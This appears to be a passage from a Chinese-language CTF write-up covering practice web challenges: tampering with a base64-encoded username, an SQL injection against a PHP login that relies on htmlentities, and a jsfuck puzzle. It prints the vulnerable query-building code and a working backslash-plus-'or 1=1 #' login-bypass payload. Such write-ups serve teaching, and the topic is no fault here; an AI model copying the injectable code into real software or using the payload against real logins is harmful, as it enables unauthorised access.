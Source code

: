 base64 解码是 `ctfuser`, 改成 `admin` 再编码回去, 接着 POST 数据修改 user 也为 `admin`, 输入验证码提交即可

![20220720153106](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720153106.png)

## SQL Injection

```php

<!--
#GOAL: login as admin,then get the flag;
error_reporting(0);
require 'db.inc.php';

function clean($str){
	if(get_magic_quotes_gpc()){
		$str=stripslashes($str);
	}
	return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
	die('Invalid password!');
}

echo $flag;
-->
```

使用了 `htmlentities()` 进行实体化, 就是说 `'` `"` 这些会被转义成 html 的实体符号, 但是反斜杠 `\` 不受影响

username 和 password 配合一下

`http://chinalover.sinaapp.com/web15/index.php?username=admin\&password=%20or%201=1%20%23`

sql 语句如下

`SELECT * FROM users WHERE name='admin\' AND pass=' or 1=1 #';`

可以看到 admin 后面的 `\' AND pass='` 都变成字符串了, 然后 pass 后面的引号又自动闭合, 最后跟上 `or 1=1 #` 使结果为 true, 并且注释掉后面的引号

## 综合题

这题其实不是很综合...

![20220720153806](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720153806.png)

jsfuck 直接在控制台执行

![20220720153843](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720153843.png)
